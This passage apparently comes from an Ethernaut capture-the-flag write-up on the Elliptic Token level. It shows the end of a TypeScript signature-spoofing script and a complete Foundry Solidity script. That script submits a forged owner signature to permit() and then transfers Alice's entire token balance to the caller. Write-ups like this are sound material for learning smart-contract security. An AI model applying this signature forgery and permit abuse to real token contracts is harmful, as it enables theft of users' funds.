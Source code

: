 ```typescript
        await verifyHash({
            hash: messageHash,
            signature: serializedSignature,
            address,
        }),
    );
}

main().catch((err) => {
    console.error(err);
    process.exit(1);
});

```

This script is referenced from [here](https://github.com/piatoss3612/Ethernaut/blob/main/script/signature_spoofing.ts). We run this script with yarn and have the output:

![image-20251030044006070](./img/image-20251030044006070.png)

Then we can copy the message hash and signature in our Solidity script:

`EllipticToken.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.28;

import {Script, console} from "forge-std/Script.sol";
import {IEllipticToken} from "../src/IEllipticToken.sol";

contract EllipticTokenScript is Script {
    address tokenAddress = 0x96D52a815b56d80890bdC627458d623b9cD62874;
    address tokenOwner = 0xA11CE84AcB91Ac59B0A4E2945C9157eF3Ab17D4e;
    IEllipticToken token = IEllipticToken(tokenAddress);

    function run() external {
        vm.startBroadcast();
        uint256 amount = uint256(0x1176ea0c3e05d106665d9ce306359578b32fd2441e7234a6f1cc2218676f346a);
        bytes memory tokenOwnerSignature = 
            hex"aba231ba9cb786c65abe725bcf4785b2db4825d8506a3c493fa3edab685d6ee86249c4f865276652d8e2dbcf1957ffacd21a1635b993286f9a1fefd1afe24fae1c";

        bytes32 permitAcceptHash = keccak256(abi.encodePacked(tokenOwner, msg.sender, amount));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(msg.sender, permitAcceptHash);
        bytes memory spenderSignature = abi.encodePacked(r, s, v);

        token.permit(amount, msg.sender, tokenOwnerSignature, spenderSignature);
        bool success = token.transferFrom(tokenOwner, msg.sender, token.balanceOf(tokenOwner));
        require(success, "Transfer failed");

        console.log("Alice's ETK balance:", token.balanceOf(tokenOwner));
        vm.stopBroadcast();
    }
}
```
